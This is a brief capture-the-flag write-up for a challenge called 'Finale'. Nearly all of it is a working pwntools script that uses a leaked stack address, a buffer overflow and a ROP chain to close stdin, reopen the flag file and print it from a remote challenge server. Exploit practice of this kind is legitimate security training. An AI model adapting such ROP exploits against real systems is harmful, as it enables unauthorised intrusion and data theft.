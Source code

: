 # Finale

## Idea
*DUMP - Not a proper writeup*
Use ROP.
Close STDIN then open the flag file. It will have the file descriptor set to 0. Now use the read call that is in code and write back the buffer.
## Solution
```python
from pwn import *
context.arch = 'amd64'

pop_rdi = 0x00000000004012d6
pop_rsi = 0x00000000004012d8
pop_rbp = 0x0000000000401404

open_fn = 0x004011c4
close_fn = 0x00401164
read_1000 = 0x00401460
write_final = 0x04014e5

io = remote("134.122.106.203", 32020)

io.recvuntil(b"secret phrase:")
io.sendline(b"s34s0nf1n4l3b00")

io.recvuntil(b" luck: [")

leak = int(io.recvuntil(b"]")[:-1],16)

io.recvuntil(b"next year: ")

print(hex(leak))

payload = b'flag.txt\x00'
payload += b"A"*(64-len(payload)) + p64(leak-0x100)
# close(0)
payload += p64(pop_rdi) + p64(0) + p64(close_fn)
# open('flag.txt') # fd = 0
payload += p64(pop_rdi) + p64(leak) + p64(pop_rsi) + p64(0) + p64(open_fn)
# read @ rpb-0x40
payload += p64(pop_rbp) + p64(leak+64+8*12) + p64(read_1000) + p64(leak+64+8*12-0x20)
payload += p64(write_final)

io.sendline(payload)

io.interactive()
```